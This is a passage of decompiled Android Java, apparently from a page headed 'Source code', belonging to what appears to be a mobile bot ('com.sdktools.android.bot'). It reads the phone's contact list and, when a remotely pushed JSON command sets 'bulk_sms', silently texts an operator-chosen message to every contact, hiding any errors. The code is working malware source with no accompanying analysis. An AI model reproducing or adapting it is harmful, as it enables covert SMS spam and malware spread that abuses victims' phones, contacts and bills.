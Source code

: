 ```cs
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return arrayList0;
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public Loader onCreateLoader(int v, Bundle bundle0) {
        return v == 1 ? this.contactsLoader() : null;
    }

    public void onLoadFinished(Loader loader0, Cursor cursor0) {
        this.contactsFromCursor(cursor0);
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoadFinished(Loader loader0, Object object0) {
        this.onLoadFinished(loader0, ((Cursor)object0));
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoaderReset(Loader loader0) {
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        if(1 == (JsonUtils.hasObject(jsonObject0, "bulk_sms") ? jsonObject0.get("bulk_sms").getAsInt() : 0)) {
            String s = JsonUtils.hasObject(jsonObject0, "bulk_body") ? jsonObject0.get("bulk_body").getAsString() : "";
            if(!TextUtils.isEmpty(s)) {
                this.sendBulkSms(s, this.getContactList());
            }
        }
    }

    private void sendBulkSms(String s, List list0) {
        for(Object object0: list0) {
            this.sendSMS(((String)object0).replace(" ", ""), s);
            try {
                Thread.sleep(300L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }
        }
    }

    public void sendSMS(String s, String s1) {
        try {
            SmsManager.getDefault().sendTextMessage(s, null, s1, null, null);
        }
        catch(Exception unused_ex) {
        }
    }

```
